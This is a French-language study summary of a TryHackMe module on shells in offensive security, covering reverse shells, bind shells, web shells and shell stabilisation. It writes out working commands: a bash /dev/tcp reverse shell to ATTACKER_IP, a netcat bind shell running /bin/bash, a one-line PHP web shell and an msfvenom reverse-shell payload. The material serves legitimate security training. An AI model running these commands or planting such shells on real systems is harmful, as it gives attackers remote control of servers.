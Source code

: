 
# 🐚 Vue d'ensemble des Shells 🐚

> Ce document est une synthèse du module *Shells Overview* de TryHackMe, rédigée en français. Il couvre les différents types de shells utilisés en sécurité offensive, leurs différences et leurs cas d'utilisation.

---

## 🎯 Objectifs d'apprentissage

* Comprendre les shells en sécurité offensive
* Configurer et utiliser des shells inversés et des shells liés
* Déployer des web shells

---

## 📚 Prérequis

* Compréhension de base des réseaux
* Connaissances fondamentales en sécurité des applications web
* Maîtrise de base de la ligne de commande
* Familiarité avec des langages de script comme Bash, Python ou PHP

---

## 🐚 Qu'est-ce qu'un Shell ?

Un shell est un logiciel qui permet à un utilisateur d'interagir avec un système d'exploitation. Il peut s'agir d'une interface graphique, mais il s'agit généralement d'une interface en ligne de commande.

En cybersécurité, un shell fait référence à une session spécifique qu'un attaquant utilise lorsqu'il accède à un système compromis, lui permettant d'exécuter des commandes et des logiciels.

---

## 🔄 Shell Inversé (Reverse Shell)

Un shell inversé, parfois appelé "connect back shell", est l'une des techniques les plus populaires pour obtenir un accès à un système lors de cyberattaques. Les connexions sont initiées depuis le système cible vers la machine de l'attaquant, ce qui peut aider à éviter la détection par les pare-feu et autres dispositifs de sécurité réseau.

### 🛠️ Configuration d'un écouteur Netcat (nc)

Pour comprendre comment fonctionne un shell inversé, utilisons l'outil Netcat. Cet utilitaire prend en charge plusieurs systèmes d'exploitation et permet la lecture et l'écriture via un réseau.

Comme mentionné précédemment, un shell inversé se connectera à la machine de l'attaquant. Cette machine attendra une connexion, donc utilisons Netcat pour écouter une connexion en utilisant la commande suivante :

```bash
nc -lvnp 443
```

Sur la machine cible, une commande typique pour établir un shell inversé pourrait ressembler à ceci :

```bash
bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1
```

---

## 🔗 Shell Lié (Bind Shell)

Un shell lié est une technique où la machine cible écoute sur un port spécifique, attendant une connexion entrante de l'attaquant. Contrairement au shell inversé, c'est l'attaquant qui initie la connexion vers la machine cible.

### 🛠️ Configuration d'un shell lié avec Netcat

Sur la machine cible, pour écouter sur un port spécifique et exécuter un shell, la commande pourrait être :

```bash
nc -lvnp 4444 -e /bin/bash
```

Ensuite, sur la machine de l'attaquant, pour se connecter au shell lié :

```bash
nc TARGET_IP 4444
```

---

## 🌐 Web Shells

Un web shell est un script malveillant téléchargé sur un serveur web, permettant à un attaquant d'exécuter des commandes sur le serveur via une interface web. Ils sont souvent écrits en PHP, ASP ou d'autres langages de script côté serveur.

### 🛠️ Exemple de web shell PHP simple

```php
<?php system($_GET['cmd']); ?>
```

En accédant à ce script via un navigateur avec une URL comme `http://target.com/shell.php?cmd=whoami`, l'attaquant peut exécuter des commandes sur le serveur.

---

## 🛡️ Stabilisation des Shells

Les shells obtenus via des connexions réseau peuvent être instables ou limités. Voici quelques techniques pour stabiliser une session shell :

* **Utiliser Python pour obtenir un shell interactif** :

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

* **Utiliser `stty` pour configurer le terminal** :

```bash
stty raw -echo; fg
```

* **Utiliser `rlwrap` pour améliorer l'expérience du shell** :

```bash
rlwrap nc -lvnp 443
```

---

## 🧰 Outils et Payloads Communs

* **Netcat** : Outil polyvalent pour établir des connexions réseau, utilisé pour les shells inversés et liés.

* **Socat** : Outil similaire à Netcat mais avec plus de fonctionnalités, utile pour établir des connexions chiffrées et des shells plus stables.

* **Msfvenom** : Outil du framework Metasploit pour générer des payloads personnalisés.

  Exemple de génération d'un payload shell inversé pour Linux :

  ```bash
  msfvenom -p linux/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=443 -f elf -o shell.elf
  ```

---

## 🧠 Concepts Clés

* **Shell** : Interface en ligne de commande permettant d'interagir avec un système d'exploitation.

* **Shell Inversé** : Connexion initiée depuis la machine cible vers l'attaquant.

* **Shell Lié** : Connexion initiée depuis l'attaquant vers la machine cible.

* **Web Shell** : Script malveillant sur un serveur web permettant l'exécution de commandes.

* **Stabilisation de Shell** : Techniques pour améliorer l'interactivité et la stabilité d'une session shell.
